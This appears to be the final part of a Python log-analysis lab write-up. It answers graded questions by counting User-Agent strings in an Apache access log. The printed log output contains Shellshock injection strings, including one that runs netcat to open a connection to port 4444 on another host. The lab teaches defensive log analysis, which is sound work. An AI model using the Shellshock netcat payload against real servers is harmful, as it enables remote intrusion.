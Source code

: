 ```python
...     return sorted(answer)

>>> doanswer59(x)
['afs.moatads.com']

>>> d.answer(59, doanswer59(d.data(59)))
'Correct'
```

```python
>>> d.question(60)
'Find the nth most frequently occurring User-Agent String in the log file /home/student/Public/log/apache2/access.log where n is the integer returned by the data method.'
>>> d.data(60)
1

>>> fpath = pathlib.Path("/home/student/Public/log/apache2/access.log")
>>> logfile = fpath.read_text()

>>> logfile[:150]
'192.168.90.170 - - [08/Oct/2014:03:51:58 -0400] "GET / HTTP/1.1" 200 483 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Geck'

# Example line in logfile:
192.168.90.170 - - [08/Oct/2014:05:06:26 -0400] "GET /css/style.css HTTP/1.1" 304 209 "http://10.10.73.150/index.php" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36"

>>> from collections import Counter
>>> c = Counter()
>>> regex = r'[\d.]+.*?\[.*?\] ".*?" \d+ \d+ ".*?" "(.*?)"'
>>> c.update(re.findall(regex, logfile))
>>> c.most_common(10)
[('Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36', 204), ('Mozilla/5.0 (X11; Linux x86_64; rv:24.0) Gecko/20140903 Firefox/24.0 Iceweasel/24.8.0', 35), ('curl/7.26.0', 5), ('Apache/2.2.22 (Ubuntu) (internal dummy connection)', 3), ('() { :; }; /bin/nc 192.168.90.11 4444', 2), ('() { :; }; /bin/ping 192.168.90.11', 1)]

# Ooopsie Doopsy!
('() { :; }; /bin/nc   192.168.90.11 4444', 2)

>>> d.answer(60, c.most_common(10)[int(d.data(60))-1][0])
'Correct'
```

**Conclusions:**

In this lab, we worked with log files to do the following:

- Read DNS logs to find which hosts queried a particular hostname
- Find a DNSCAT command and control channel based on long hostname
- Find a c2 hostname based on the frequency score
- Find every host that a specific IP address queried
- Extract User-Agent strings from apache http logs to find the most common
